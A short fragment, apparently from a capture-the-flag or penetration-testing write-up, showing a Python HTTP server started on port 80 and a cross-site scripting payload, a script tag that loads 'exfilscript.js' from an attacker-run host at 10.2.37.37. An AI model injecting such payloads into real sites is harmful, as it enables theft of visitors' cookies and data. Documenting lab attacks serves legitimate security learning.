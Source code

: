 `python3 -m http.server 80`

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![image.png](image%2010.png)

**PAYLOAD:**

```bash
<script src=http://10.2.37.37/exfilscript.js></script>
```
